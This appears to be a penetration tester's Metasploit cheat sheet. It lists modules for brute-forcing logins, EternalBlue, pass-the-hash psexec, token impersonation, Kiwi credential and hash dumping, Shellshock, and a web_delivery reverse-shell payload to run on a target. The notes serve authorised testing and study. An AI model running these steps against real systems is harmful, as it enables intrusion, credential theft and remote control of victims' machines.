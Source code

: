 #tools/multi/msfconsole 
## Services
### SSH
- Version: `auxiliary/scanner/ssh/ssh_version`
- Login Brute Force:`auxiliary/scanner/ssh/ssh_login`
	- Set `userpass_file`/(`user_file` and `pass_file`)
	- set rhosts
- Enumerate users: `auxiliary/scanner/ssh/ssh_enumusers`
- libssh auth bypass: `auxiliary/scanner/ssh/libssh_auth_bypass`

### HTTP
- Determine the version: `auxiliary/scanner/http/http_version`
- Directory brute force: `auxiliary/scanner/http/brute_dirs`, `auxiliary/scanner/http/dir_scanner`
- Files brute force (specify the extension): `auxiliary/scanner/http/files_dir`
- Robots.txt: `auxiliary/scanner/http/robots_txt`
- Header information: `auxiliary/scanner/http/http_header`
- Login brute force: `auxiliary/scanner/http/http_login`
- Find user names based on errors (only for Apache): `auxiliary/scanner/http/apache_userdir_enum`

### MySQL
- Version: `auxiliary/scanner/mysql/mysql_verion`
- Login brute force: ``auxiliary/scanner/mysql/mysql_login`
	- set rhosts, pass_file, username, etc
#### Following require creds
- Enumeration: ``auxiliary/admin/mysql/mysql_enum`
- Find writable directories: `auxiliary/scanner/mysql/mysql_writable_dirs`
	- Set `dir_list`
	- set rhosts
- Look for files:   `auxiliary/scanner/mysql/mysql_file_enum`
- Run queries: `auxiliary/admin/mysql/mysql_sql`
- Schema dump: `auxiliary/scanner/mysql/mysql_schemadump`
- Hashdump: `auxiliary/scanner/mysql/mysql_hashdump`

### MSSQL
- Login brute force: ``auxiliary/scanner/mssql/mssql_login`
	- set rhosts, pass_file, username, etc
- enumeration: ``auxiliary/scanner/mssql/mssql_enum`
- admin enumeration: `auxiliary/admin/mssql/mssql_enum_sql_logins`
- command execution: `auxiliary/admin/mssql/mssql_exec`

### FTP
- Version detection: `auxiliary/scanner/ftp/ftp_version`
- FTP Auth Scanner (brute force): `auxiliary/scanner/ftp/ftp_login`
- Anonymous login check: `auxiliary/scanner/ftp/anonymous`

### SMB
- Version detection: `auxiliary/scanner/smb/smb_version`
- User enumeration: `auxiliary/scanner/smb/smb_enumusers`
- Enumerate shares: `auxiliary/scanner/smb/smb_enumshares`
- Login brute force: `auxiliary/scanner/smb/smb_login`
- MS17-010 Check: `auxiliary/scanner/smb/smb_ms17_010`
- MS17-010 Exploit: `exploit/windows/smb/ms17_010_eternalblue`

#### Psexec
- Run `psexec` from msfconsole: `exploit/windows/smb/psexec`
	```
	> set session
	> set LPORT, RHOSTS, SMBUser
	> set SMBPass <NTLM hash>
	> set target command/Native upoload # try different ones
	```

### SMTP
- Version: `auxiliary/scanner/smtp/smtp_version`
- User enumeration: `auxiliary/scanner/smtp/smtp_enum`

### WinRM
- Detection: `auxiliary/scanner/winrm/winrm_auth_methods`
- User/pass bruteforce: `auxiliary/scanner/winrm/winrm_login`
- Command runner: `auxiliary/scanner/winrm/winrm_cmd`
- Run script: `exploit/winrm/winrm_script_exec`
	- set FORCE_VBS true

### Samba
- Arbitrary Module Load: `exploit/linux/samba/is_known_pipename`

## OS
### Windows
- Find kernel exploits in Windows: `multi/recon/local_exploit_suggester`
> To run `hashdump` first migrate to `lsass.exe`

### Linux
- Hash Dump: `post/linux/gather/hashdump`
	- set the session

## Functions
### Incognito Module
- Gain access to the machine and get a meterpreter shell
	```
	> getuid
	> pgrep explorer
	> migrate <explorer_id>
	> load incognito
	> list_tokens -u
	> impersonate_token "<DOMAN>\<USER>"
	> getuid # should be now of the impersonated user
	> getprivs # might fail
	> pgrep explorer
	> migrate <explorer's_id>
	> getprivs # now it should work
	```
- Repeat the same to gain access to higher privilege account

> If you have access only as `NT AUTHORITY\LOCAL SERVICE`, you won't be able to migrate to different processes

### Kiwi Module
- Gain access to the target machine and make sure you have elevated privileges (at least Administrator)
- migrate to `$(pgrep lsass)` (otherwise the commands wont work) as lsass manages these hashes
	```
	> load kiwi
	> creds_all
	> lsa_dump_sam # you get the syskey
	> lsa_dump_secret # might provide some clear text creds
	> golden_ticket_create # in AD useful
	> kerberos_ticket_list # for kerberos
	```

## Vulnerabilities
### Linux
#### Shellshock
- `exploit/multi/http/apache_mod_cgi_bash_env_exec`
	- set target IP and path

## Commands
- Exit session: ctrl + Z
- Upgrade a session: `session -u <session no>`

## Plugins
- `db_nmap`
- `db_autopwn`: https://github.com/hahwul/metasploit-autopwn
	- Checks all the exploits and provides the matching ones
	- Run `analyze` to get details of the exploits that can be performed

## Utilities
- Shell to meterpreter
	```
	post/multi/manage/shell_to_meterpreter
	```
- Upgrade a session automatically
	```
	session -u
	```

## Scripts
- Web Deilivery to fire up a webserver and server a payload: `exploit/multi/script/web_delivery`
	```
	set target PSDH (binary)
	set payload windows/shell/reverse_tcp
	set PSH-EncodedCommand False
	set LHOST eth1
	run
	```
	- Copy this code and run directly on your target machine
	- This will give you a direct shell as the logged in user
	- You can covert this with `shell_to_meterpreter` and make sure to set `WIN_TRANSFER VBS` for windows